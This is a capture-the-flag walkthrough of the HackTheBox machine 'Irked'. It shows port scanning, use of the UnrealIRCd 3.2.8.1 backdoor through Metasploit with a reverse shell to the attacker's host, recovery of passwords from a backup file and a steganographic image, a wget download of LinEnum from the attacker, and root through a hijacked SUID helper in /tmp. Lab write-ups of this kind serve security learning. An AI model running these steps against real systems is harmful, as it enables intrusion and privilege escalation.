

<p align="center">
  
</p>

***

# External Recon
As usual we work our way down the KillChain. Starting with a typical nmap scan.

`nmap -sC -sV -oN inital 10.10.10.117`

This runs all the default labled nmap scripts, enumerates versions of found services
and dumps everything into the file inital. Note that a default nmap scan just
does TCP scans and only the top 1000 ports.

Here's the output of said scan:

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)                          
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)                              
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)                              
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)                             
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)                           
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))                                        
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).                                        
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          46965/udp  status
|_  100024  1          47229/tcp  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                     
```

We note the usual suspects. "Port 22/ssh" and "Port 80/http".
"Port 111/rpcbind" is somewhat unusual.

Since we found a webservice. Let's fire up gobuster to scan the website for more
intel.

`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.117 -x txt,php,htm,html`

But this leads to a dead end. We find just the Apache manual and nothing more.

So let's start exploreing what else we've got so far.

[[Top]](#top)

# Explore
<br>
#### Port 22:
`ssh root@10.10.10.117`

Regular ssh service. Nothing special so far. We get promted for a password.
<br>
<br>
#### Port 80:
Let's look at the Website:


This looks like an obvious hint. "IRC is almost working".
Usualy IRC runs on ports: "194/tcp" or "6667/tcp". We haven't seen those ports yet.

I thought at this point: "Well, perhaps those ports aren't in the default scan of nmap?"
So let's rescan both ports:

```
nmap -sC -sV -p 6667,194 10.10.10.117                               

PORT     STATE  SERVICE VERSION
194/tcp  closed irc
6667/tcp closed irc
```

Both closed. So, what now...
<br>
<br>
#### Port 111:
After all routes led to a dead end so far, it looked like "Port 111" was the only option left.
So I searched for it's intended use, and exploits of it. Long story short: It's
nothing of value for this box. If you google for "rpcbind / portmapper" exploits you find some very old ones.
However I wasn't able to accomplish anything with it. I spent a couple of hours on this rabbit hole.

Eventually I resorted to the HackTheBox forums and check the thread for this box.
One guy said:

> Have you scanned all the ports...

At this point I was like: "Fuck!" Sure thing, I haven't scanned all ports on this bitch. So I finally did.

```
nmap -p- 10.10.10.117                                                
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
47229/tcp open  unknown
65534/tcp open  unknown
```

And there we have it. "Port 6697" is open als looks like IRC is listening.

Let's check if this is indeed IRC listening here. So I got myself an IRC client.
In this case "HexChat" and conntected to the server.




As you can see, I am not only connected, but I also got more intel about the specific
IRC version:

`Your host is irked.htb, running version Unreal3.2.8.1`

Let's check "searchsploit" if there's an exploit already written for this version.
It's an easy box afterall.

```
searchsploit unreal
-------------------------------------------------------------------- ----------------------------------
| Exploit Title                                                     |  Path                           |      
|                                                                   | (/usr/share/exploitdb/)         |      
-------------------------------------------------------------------- ----------------------------------
| UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)      | exploits/linux/remote/16922.rb  |      
-------------------------------------------------------------------------------------------------------
```

Seems like it. :)
Let's break in!

[[Top]](#top)

# Exploit
Let's fire up Metasploit. And load the exploit with `use exploit`.
The commands within `msf` are fairly simple. So I don't write them all down.
Here's the finished Exploit including the payload we will try.

```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.149     yes       The listen address (an interface may be specified)                                                              
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```

So let's type "exploit", hit enter and sure enough, we get a shell back. Sweet!

```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit                                                                                            

[*] Started reverse TCP double handler on 10.10.15.149:4444                                                                                          
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...                                                                                            
    :irked.htb NOTICE AUTH :*** Looking up your hostname...                                                                                          
[*] 10.10.10.117:6697 - Sending backdoor command...                                                                                                  
[*] Accepted the first client connection...                                                                                                          
[*] Accepted the second client connection...                                                                                                         
[*] Command: echo 4DOoaoPnPoYRBF0P;                                                                                                                  
[*] Writing to socket A                                                                                                                              
[*] Writing to socket B                                                                                                                              
[*] Reading from sockets...                                                                                                                          
[*] Reading from socket A                                                                                                                            
[*] A: "4DOoaoPnPoYRBF0P\r\n"                                                                                                                        
[*] Matching...                                                                                                                                      
[*] B is input...                                                                                                                                    
[*] Command shell session 1 opened (10.10.15.149:4444 -> 10.10.10.117:52871) at 2018-12-24 21:56:58 +0100  
```

Let's get a halfway decent pty shell.


python3 -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$


[[Top]](#top)

# Internal Recon
Awesome, now we have a shell. Let's find out which users are on this box. And if we can find
something usefull.

```
ircd@irked:~$ ls -la /home
drwxr-xr-x 20 djmardov djmardov 4096 Dec 24 15:51 djmardov
drwxr-xr-x  4 ircd     root     4096 Dec 24 13:17 ircd

ircd@irked:~$ cat /etc/passwd
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh

ircd@irked:~$ sudo -l
bash: sudo: command not found
```

This is just a rough first overview. We probably just have two users on this box.
Which typicaly means, we need to privesc to the other user first. Let's check both
home folders for more intel before we start spending time on tools like `LinEnum`.

```
ircd@irked:/home/djmardov/Documents$ ls -la
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt

ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Nice! We found a password of some sorts. And also we've got a hint for what it can be
used. However, let's stop here for a second and put this in perspective.

It took me just a couple of minutes to find this file. Because I was searching
for the user.txt which you is right next to the backup file.
(User.txt isn't accessible for us as you can see.)

However I wasn't sure what to do with it. "Steg" is a reference for "Stegonography"
that's for sure. But there's nothing where to put the password. I searched everywhere in the filesystem.
After quite some time I took a break thought:

> Where is typicaly some stego hidden? Well, pictures. But I don't have a picture.
> ...except the one on the Website!

Damn! This took me way to long. So, what next? I downloaded the picture and installed a famous
tool I knew from other "Stego" Challenges called "StegHide".

```
root@kali:~# steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".

root@kali:~# cat pass.txt
Kab6h+m+bbp2J:HG
```

Awesome! We've got another password. Since we found it in "djmardov" directory
let's check if it's a password for "ssh".

[[Top]](#top)

# User Flag

```
ssh djmardov@10.10.10.117
Password:

djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e************
```

Awesome. We are not only authenticated as a propper user, we also can
get the "userflag" now.

[[Top]](#top)

# Privilege Escalation
Let's hunt for the "rootflag". I start with downloading "LinEnum.sh" from my attacker
machine. I start a local webserver using python3.

#### Attacker
`python3 -m http.server 80`

#### Victim
```
djmardov@irked:/tmp$ wget http://10.10.15.149/LinEnum.sh                                                                                             
2018-12-24 17:42:34 (1.45 MB/s) - 'LinEnum.sh' saved [45578/45578]

djmardov@irked:/tmp$ chmod +x LinEnum.sh
djmardov@irked:/tmp$ ./LinEnum.sh -t
```

This is part of the relevant output. I noticed the program "viewuser".
Which has the SUID bit set. Why this program? It's not installed on Linux by default.
If you don't know this, you only can compare a Linux install with this one.

```
[-] SUID files:                                                                                                                                      
-rwsr-xr-x 1 root root 53112 May 17  2017 /usr/bin/passwd                                                                                            
-rwsr-xr-x 1 root root 52344 May 17  2017 /usr/bin/chfn                                                                                              
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser                                                                                           
-rwsr-xr-x 1 root root 96760 Aug 13  2014 /sbin/mount.nfs                                                                                            
-rwsr-xr-x 1 root root 38868 May 17  2017 /bin/su                                                                                                    
-rwsr-xr-x 1 root root 34684 Mar 29  2015 /bin/mount
```

Let's run the programm an check what it does.

```
djmardov@irked:/usr/bin$ ./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 24 17:20 (:0)
djmardov pts/0        Dec 24 17:27 (10.10.14.250)
djmardov pts/1        Dec 24 17:37 (10.10.15.149)
djmardov pts/3        Dec 24 17:45 (10.10.15.234)
sh: 1: /tmp/listusers: not found
```

So, it says it's in development and should set and test user permissions.
But it seems, it ran into an error because the file `/tmp/listuser` is missing.

Well, let's create one. But put some cool content in there. ;)

```
djmardov@irked:/usr/bin$ echo /bin/bash > /tmp/listusers                                                                                             

djmardov@irked:/usr/bin$ chmod 777 /tmp/listusers

djmardov@irked:/usr/bin$ ./viewuser                                                                                                                  

This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Dec 24 17:20 (:0)
djmardov pts/0        Dec 24 17:27 (10.10.14.250)
djmardov pts/1        Dec 24 17:37 (10.10.15.149)
djmardov pts/3        Dec 24 17:45 (10.10.15.234)
djmardov pts/5        Dec 24 17:53 (10.10.12.6)

root@irked:/usr/bin#
```

Aaand we are root! =)

[[Top]](#top)

# <a name="RFlag"></a>Root Flag
So all that is left, is to get the `rootflag`.

```
root@irked:# cat /root/root.txt
8d8e9e8be6465***********
```

This is a box done!

[[Top]](#top)

# <a name="Learned"></a>Lessons Learned
I always forget to either scan for all ports or UDP ports when I can't find a first entry point.
This was my initial problem with this box. I had to go to the forums to get a hint. Which could
have been avoided.

So, what I did is to automate my nmap scan. I just wrote a simple python3 wrapper around nmap.
The UDP scan takes ages to complete btw, so I put it last.
<br>
You can find it here on my <a href="https://github.com/tagnullde/CTF/tree/master/Recon" target="_blank">Github</a> page.

To cite ippsec:

> "It's always good to have some recon running in the background."

That's all for today. Have a good one!

x41

[[Top]](#top)
